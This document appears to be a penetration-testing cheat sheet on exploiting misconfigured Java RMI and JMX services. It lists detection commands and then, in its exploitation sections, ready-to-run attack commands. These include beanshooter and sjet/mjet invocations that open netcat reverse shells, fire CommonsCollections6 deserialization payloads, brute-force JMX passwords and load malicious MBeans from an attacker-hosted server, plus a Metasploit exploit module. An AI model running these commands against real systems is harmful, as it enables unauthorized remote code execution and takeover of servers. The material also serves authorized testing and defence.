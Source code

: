 # Java RMI

> Java RMI (Remote Method Invocation) is a Java API that allows an object running in one JVM (Java Virtual Machine) to invoke methods on an object running in another JVM, even if they're on different physical machines. RMI provides a mechanism for Java-based distributed computing.

## Summary

* [Tools](#tools)
* [Detection](#detection)
* [Exploitation](#exploitation)
  * [RCE using beanshooter](#rce-using-beanshooter)
  * [RCE using sjet/mjet](#rce-using-sjet-or-mjet)
  * [RCE using Metasploit](#rce-using-metasploit)
* [References](#references)

## Tools

- [siberas/sjet](https://github.com/siberas/sjet)
- [mogwailabs/mjet](https://github.com/mogwailabs/mjet)
- [qtc-de/remote-method-guesser](https://github.com/qtc-de/remote-method-guesser)
- [qtc-de/beanshooter](https://github.com/qtc-de/beanshooter) - JMX enumeration and attacking tool.

## Detection

* Using [nmap](https://nmap.org/):
  ```powershell
  $ nmap -sV --script "rmi-dumpregistry or rmi-vuln-classloader" -p TARGET_PORT TARGET_IP -Pn -v
  1089/tcp open  java-rmi Java RMI
  | rmi-vuln-classloader:
  |   VULNERABLE:
  |   RMI registry default configuration remote code execution vulnerability
  |     State: VULNERABLE
  |       Default configuration of RMI registry allows loading classes from remote URLs which can lead to remote code execution.
  | rmi-dumpregistry:
  |   jmxrmi
  |     javax.management.remote.rmi.RMIServerImpl_Stub
  ```

* Using [remote-method-guesser](https://github.com/qtc-de/remote-method-guesser):
  ```bash
  $ rmg scan 172.17.0.2 --ports 0-65535
  [+] Scanning 6225 Ports on 172.17.0.2 for RMI services.
  [+] 	[HIT] Found RMI service(s) on 172.17.0.2:40393 (DGC)
  [+] 	[HIT] Found RMI service(s) on 172.17.0.2:1090  (Registry, DGC)
  [+] 	[HIT] Found RMI service(s) on 172.17.0.2:9010  (Registry, Activator, DGC)
  [+] 	[6234 / 6234] [#############################] 100%
  [+] Portscan finished.

  $ rmg enum 172.17.0.2 9010
  [+] RMI registry bound names:
  [+]
  [+] 	- plain-server2
  [+] 		--> de.qtc.rmg.server.interfaces.IPlainServer (unknown class)
  [+] 		    Endpoint: iinsecure.dev:39153 ObjID: [-af587e6:17d6f7bb318:-7ff7, 9040809218460289711]
  [+] 	- legacy-service
  [+] 		--> de.qtc.rmg.server.legacy.LegacyServiceImpl_Stub (unknown class)
  [+] 		    Endpoint: iinsecure.dev:39153 ObjID: [-af587e6:17d6f7bb318:-7ffc, 4854919471498518309]
  [+] 	- plain-server
  [+] 		--> de.qtc.rmg.server.interfaces.IPlainServer (unknown class)
  [+] 		    Endpoint: iinsecure.dev:39153 ObjID: [-af587e6:17d6f7bb318:-7ff8, 6721714394791464813]
  [...]
  ```

* Using Metasploit
  ```bash
  use auxiliary/scanner/misc/java_rmi_server
  set RHOSTS <IPs>
  set RPORT <PORT>
  run
  ```

## Exploitation

If a Java Remote Method Invocation (RMI) service is poorly configured, it becomes vulnerable to various Remote Code Execution (RCE) methods. One method involves hosting an MLet file and directing the JMX service to load MBeans from a distant server, achievable using tools like mjet or sjet. The remote-method-guesser tool is newer and combines RMI service enumeration with an overview of recognized attack strategies.


### RCE using beanshooter

* List available attributes: `beanshooter info 172.17.0.2 9010`
* Display value of an attribute: `beanshooter attr 172.17.0.2 9010 java.lang:type=Memory Verbose`
* Set the value of an attribute: `beanshooter attr 172.17.0.2 9010 java.lang:type=Memory Verbose true --type boolean`
* Bruteforce a password protected JMX service: `beanshooter brute 172.17.0.2 1090`
* List registered MBeans: `beanshooter list 172.17.0.2 9010`
* Deploy an MBean: `beanshooter deploy 172.17.0.2 9010 non.existing.example.ExampleBean qtc.test:type=Example --jar-file exampleBean.jar --stager-url http://172.17.0.1:8000`
* Enumerate JMX endpoint: `beanshooter enum 172.17.0.2 1090`
* Invoke method on a JMX endpoint: `beanshooter invoke 172.17.0.2 1090 com.sun.management:type=DiagnosticCommand --signature 'vmVersion()'`
* Invoke arbitrary public and static Java methods: 
  ```ps1
  beanshooter model 172.17.0.2 9010 de.qtc.beanshooter:version=1 java.io.File 'new java.io.File("/")'
  beanshooter invoke 172.17.0.2 9010 de.qtc.beanshooter:version=1 --signature 'list()'
  ```
* Standard MBean execution: `beanshooter standard 172.17.0.2 9010 exec 'nc 172.17.0.1 4444 -e ash'`
* Deserialization attacks on a JMX endpoint: `beanshooter serial 172.17.0.2 1090 CommonsCollections6 "nc 172.17.0.1 4444 -e ash" --username admin --password admin`


### RCE using sjet or mjet

#### Requirements

- Jython
- The JMX server can connect to a http service that is controlled by the attacker
- JMX authentication is not enabled

#### Remote Command Execution

The attack involves the following steps:
* Starting a web server that hosts the MLet and a JAR file with the malicious MBeans
* Creating a instance of the MBean `javax.management.loading.MLet` on the target server, using JMX
* Invoking the `getMBeansFromURL` method of the MBean instance, passing the webserver URL as parameter. The JMX service will connect to the http server and parse the MLet file.
* The JMX service downloads and loades the JAR files that were referenced in the MLet file, making the malicious MBean available over JMX.
* The attacker finally invokes methods from the malicious MBean.

Exploit the JMX using [siberas/sjet](https://github.com/siberas/sjet) or [mogwailabs/mjet](https://github.com/mogwailabs/mjet)

```powershell
jython sjet.py TARGET_IP TARGET_PORT super_secret install http://ATTACKER_IP:8000 8000
jython sjet.py TARGET_IP TARGET_PORT super_secret command "ls -la"
jython sjet.py TARGET_IP TARGET_PORT super_secret shell
jython sjet.py TARGET_IP TARGET_PORT super_secret password this-is-the-new-password
jython sjet.py TARGET_IP TARGET_PORT super_secret uninstall
jython mjet.py --jmxrole admin --jmxpassword adminpassword TARGET_IP TARGET_PORT deserialize CommonsCollections6 "touch /tmp/xxx"

jython mjet.py TARGET_IP TARGET_PORT install super_secret http://ATTACKER_IP:8000 8000
jython mjet.py TARGET_IP TARGET_PORT command super_secret "whoami"
jython mjet.py TARGET_IP TARGET_PORT command super_secret shell
```

### RCE using Metasploit

```bash
use exploit/multi/misc/java_rmi_server
set RHOSTS <IPs>
set RPORT <PORT>
# configure also the payload if needed
run
```

## References

- [Attacking RMI based JMX services - Hans-Martin Münch - April 28, 2019](https://mogwailabs.de/en/blog/2019/04/attacking-rmi-based-jmx-services/)
- [JMX RMI - MULTIPLE APPLICATIONS RCE - Red Timmy Security - March 26, 2019](https://www.exploit-db.com/docs/english/46607-jmx-rmi-–-multiple-applications-remote-code-execution.pdf)
- [remote-method-guesser - BHUSA 2021 Arsenal - Tobias Neitzel - August 15, 2021](https://www.slideshare.net/TobiasNeitzel/remotemethodguesser-bhusa2021-arsenal)
